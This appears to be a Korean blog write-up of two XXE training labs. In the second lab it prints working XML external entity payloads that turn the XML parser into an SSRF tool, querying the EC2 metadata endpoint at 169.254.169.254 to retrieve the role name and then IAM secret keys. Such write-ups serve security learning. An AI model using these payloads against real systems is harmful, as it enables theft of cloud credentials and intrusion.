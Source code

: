 ```yaml
---
title: "[2025-07-08] XXE"
excerpt: "XXE"

categories:
  - Problem
tags:
  - [XXE]

permalink: /Problem/[2025-07-08] XXE/

toc: true
toc_sticky: true

date: 2025-07-07
last_modified_at: 2025-07-07
---
```


## 🦥 본문

### XXE(1)

이 실습에는 XML 입력을 파싱하고 응답에서 예상치 못한 값을 반환하는 '재고 확인(Check stock)' 기능이 있습니다. 이 실습을 해결하려면, XML 외부 엔티티(XML External Entity, XXE)를 삽입하여 /etc/passwd 파일의 내용을 가져오세요.

사이트를 처음 들어가면 아래와 같은 이미지가 나타난다
![image.png](https://yunseo10987.github.io/assets/images/posts_img/2025-07-08%20XXE/image.png)
view detail을 클릭하면 다음과 같다.
![image.png](https://yunseo10987.github.io/assets/images/posts_img/2025-07-08%20XXE/image1.png)

Check stock을 클릭하여 인터셉트 하면 다음과 같은 Request를 보낸다. 
![image.png](https://yunseo10987.github.io/assets/images/posts_img/2025-07-08%20XXE/image%20copy.png)
XML 방식으로 보내는 데 이 Request를 Repeater로 보내서 다음과 같이 보내면 비밀번호를 얻을 수 있다.
![image.png](https://yunseo10987.github.io/assets/images/posts_img/2025-07-08%20XXE/image%20copy%202.png)

### XXE(2)

이 실습에는 XML 입력을 파싱하고, 응답에 예상치 못한 값을 포함하여 반환하는 "재고 확인(Check stock)" 기능이 있습니다.

실습 서버는 기본 주소인 http://169.254.169.254/에서 실행되는 (모의된) EC2 메타데이터 엔드포인트를 가지고 있습니다. 이 엔드포인트는 해당 인스턴스에 대한 데이터를 조회하는 데 사용할 수 있으며, 일부 정보는 민감할 수 있습니다.

이 실습을 해결하려면, XXE 취약점을 이용하여 SSRF(Server-Side Request Forgery) 공격을 수행하고, EC2 메타데이터 엔드포인트로부터 서버의 **IAM 비밀 접근 키(secret access key)**를 획득해야 합니다.

위와 비슷한 사이트로 Check Stock을 클릭하여 Request를 인터셉트하면 위과 같은 Request가 나온다.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```
위와 같이 보내면 해당 계정을 알 수 있다. Res를 보면 admin인 것을 알 수 있다.

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
]>
<stockCheck>
  <productId>&xxe;</productId>
</stockCheck>
```

위와 같이 보내면 key 값들을 모두 볼 수 있게 된다. 
![image.png](https://yunseo10987.github.io/assets/images/posts_img/2025-07-08%20XXE/image2.png)